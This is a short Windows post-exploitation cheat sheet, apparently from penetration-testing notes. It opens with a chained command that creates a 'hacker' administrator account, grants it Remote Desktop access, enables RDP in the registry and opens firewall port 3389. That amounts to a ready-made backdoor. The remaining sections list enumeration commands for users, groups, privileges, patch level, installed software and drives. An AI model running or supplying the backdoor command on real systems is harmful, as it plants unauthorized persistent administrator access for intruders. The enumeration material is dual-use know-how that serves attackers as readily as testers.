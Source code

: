 ```
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable
```
### Network capture
```
tcpdump -D
WinDump.exe
```
## Users and Groups
### Info about current user 
```
echo %USERNAME%  
echo %USERNAME% || whoami
$env:username
net user %USERNAME%
whoami
whoami /priv
whoami /groups
```
List privileges:
```
secedit /export /areas USER_RIGHTS /cfg OUTFILE.CFG
```
### Local
List all Local Users:
```
net user
whoami /all
Get-LocalUser | ft Name,Enabled,LastLogon
Get-ChildItem C:\Users -Force | select Name
```
List all Local Groups:
```
net localgroup  
```
Check who is a member of the local group "Administrators":
```
net localgroup Administrators
Get-LocalGroupMember Administrators | ft Name, PrincipalSource
```
# CVEs
## Patch Level  
```
wmic qfe get Caption, Description
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
## Applications
```
wmic product get name, version, vendor
```
##  Device Drivers and Kernel Modules
```
wmic logicaldisk get Caption
wmic logicaldisk get caption || fsutil fsinfo drives
wmic logicaldisk get caption,description,providername
```